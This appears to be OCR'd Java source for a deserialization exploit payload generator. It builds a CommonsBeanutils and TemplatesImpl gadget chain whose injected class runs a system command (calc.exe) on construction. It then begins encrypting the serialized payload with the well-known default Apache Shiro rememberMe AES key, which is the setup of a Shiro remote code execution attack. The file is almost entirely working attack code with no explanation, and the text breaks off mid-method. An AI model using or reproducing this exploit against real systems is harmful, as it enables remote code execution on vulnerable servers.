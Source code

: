```


public class CommonsBeanutilsObjectToStringComparator<pubilc> {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        ObjectToStringComparator stringComparator = new ObjectToStringComparator();


        final BeanComparator comparator = new BeanComparator(null, stringComparator);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add(stringComparator);
        queue.add(stringComparator);



        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }

    public static class Evils extends AbstractTranslet {
        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

        public Evils() throws Exception {
            System.out.println("Hello TemplatesImpl");
            Runtime.getRuntime().exec("calc.exe");
        }
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evils.class.getName());
        byte[] payloads = new CommonsBeanutilsObjectToStringComparator().getPayload(clazz.toBytecode());


        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
```